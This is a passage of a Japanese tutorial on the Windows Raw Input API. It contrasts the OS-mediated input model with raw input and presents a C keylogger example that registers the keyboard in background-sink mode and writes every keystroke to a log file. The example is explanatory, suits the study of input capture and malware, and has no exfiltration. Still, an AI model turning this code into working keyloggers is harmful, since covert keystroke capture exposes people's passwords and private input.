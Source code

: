  - **Original Input Model**:  キーボードなどの入力デバイスから入力されたデータを、一度OSを介して必要な処理をした後、アプリケーション側に届ける方式
 - **Raw Input Model**:  キーボードなどの入力デバイスから入力されたデータを、そのままアプリケーション側が直接受け取る方式

Windowsでは当初、Original Input Modelのみが使われていました。しかしWindows XP以降に、おそらくは入力デバイスの多様化などの要因から、Raw Input Modelが導入されました。Raw Input Modelでは、[```RegisterRawInputDevices```](https://learn.microsoft.com/ja-jp/windows/win32/api/winuser/nf-winuser-registerrawinputdevices) APIを使い、入力データを直接受け取りたい入力デバイスを登録します。そしてその後、[```GetRawInputData```](https://learn.microsoft.com/ja-jp/windows/win32/api/winuser/nf-winuser-getrawinputdata)) APIを用いて生データを取得します。
以下がこれらのAPIを使った、Raw Input Modelを用いたキーロガーの簡単な例です。

``` C
LRESULT CALLBACK WndProc(HWND hWnd, UINT uMessage, WPARAM wParam, LPARAM lParam)
{

    UINT dwSize = 0;
    RAWINPUT* buffer = NULL;

    switch (uMessage)
    {
    case WM_CREATE:
        RAWINPUTDEVICE rid;
        rid.usUsagePage = 0x01;  // HID_USAGE_PAGE_GENERIC
        rid.usUsage = 0x06;      // HID_USAGE_GENERIC_KEYBOARD
        rid.dwFlags = RIDEV_NOLEGACY | RIDEV_INPUTSINK;
        rid.hwndTarget = hWnd;
        RegisterRawInputDevices(&rid, 1, sizeof(rid));
        break;
    case WM_INPUT:
        GetRawInputData((HRAWINPUT)lParam, RID_INPUT, NULL,
&dwSize, sizeof(RAWINPUTHEADER));

        buffer = (RAWINPUT*)HeapAlloc(GetProcessHeap(), 0, dwSize);

        if (GetRawInputData((HRAWINPUT)lParam, RID_INPUT, buffer, 
&dwSize, sizeof(RAWINPUTHEADER)))
        {
            if (buffer->header.dwType == RIM_TYPEKEYBOARD)
            {
                SaveTheKey(buffer, "log.txt");
            }
        }
        HeapFree(GetProcessHeap(), 0, buffer);
        break;
    default:
        return DefWindowProc(hWnd, uMessage, wParam, lParam);
    }
    return 0;
}
```

この例では、最初に生入力を受け取りたい入力デバイスを```RegisterRawInputDevices```を用いて、登録します。ここでは、キーボードの生入力データを受け取るように設定・登録しています。
